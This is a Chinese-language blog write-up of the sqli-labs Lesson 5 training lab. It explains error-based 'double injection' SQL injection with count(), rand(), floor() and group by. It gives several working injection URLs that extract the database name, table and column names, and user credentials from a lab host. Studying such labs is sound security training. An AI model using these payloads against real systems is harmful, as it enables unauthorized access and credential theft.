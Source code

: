 ```yaml
---
title: sqli-labs-lession-5 GET单引号双注入
date: 2018-09-21 17:09:45
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession 5 GET单引号双注入 #
---

## 登录界面 ##

![1](https://i.imgur.com/o5P4i5s.png)


## 手注 ##
输入单引号测试下

`http://10.60.250.181/sqlilabs/Less-5/?id=1%27`

![2](https://i.imgur.com/C2OndYK.png)

返回的错误信息和Lesson-1一样。

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`

尝试将右侧注释掉

`http://10.60.250.181/sqlilabs/Less-5/?id=1%27%23`

![3](https://i.imgur.com/u9vm04H.png)

没有返回信息,但是显示的是“You are in”,猜测这次可能正确执行SQL语句就显示“You are in”,错误就报错。

查看源码验证...

![4](https://i.imgur.com/pz8TbRh.png)

果然如此。

有没有一种方法能在错误种把我要获取的信息显示出来呢？就是双注入了。


### 双注入 ###

过本关需要了解双注入。

双注入需要count()、rand()、floor()这三个函数以及group by联合使用。

count():查询数量

rand()：产生0~1间的随机数 

floor()：向下取整

group by：按指定分类

具体例子：

`select count(*),(floor(rand(0)*2))x from information_schema.tables group by x;`

要让上述的报错实现数据库至少要3条数据。

具体原因查看这篇分析

[
Mysql报错注入原理分析(count()、rand()、group by)](http://wooyun.jozxing.cc/static/drops/tips-14312.html)

### 字段数 ###

![5](https://i.imgur.com/p0yH37f.png)

![6](https://i.imgur.com/iWvqxd6.png)

### 双注入报错 ###

接下来的语句想要尝试多次。

`http://10.60.250.181/sqlilabs/Less-5/?id=1' union select 1,count(*),concat((floor(rand(0)*2)),'--',(select database()))x from information_schema.tables group by x%23`

![7](https://i.imgur.com/VdHTjv2.png)

`http://10.60.250.181/sqlilabs/Less-5/?id=1' union select 1,count(*),concat((floor(rand(0)*2)),'--',(select table_name from information_schema.tables where table_schema = 'security' limit 0,1))x from information_schema.tables group by x%23`

![8](https://i.imgur.com/vHIUWBM.png)

蓝色标注部分修改成要查询的就行。

`http://10.60.250.181/sqlilabs/Less-5/?id=1' union select 1,count(*),concat((floor(rand(0)*2)),'--',(select column_name from information_schema.columns where table_name = 'users' limit 0,1))x from information_schema.tables group by x%23`

![9](https://i.imgur.com/SueF3no.png)

`http://10.60.250.181/sqlilabs/Less-5/?id=1' union select 1,count(*),concat((floor(rand(0)*2)),'--',(select concat(id,'-',username,'-',password) from security.users limit 0,1))x from information_schema.tables group by x%23`

![10](https://i.imgur.com/QftJYlR.png)

## SQLMAP ##

![11](https://i.imgur.com/PU5HoC2.png)

![12](https://i.imgur.com/DJpLKuu.png)

![13](https://i.imgur.com/6HBzjsu.png)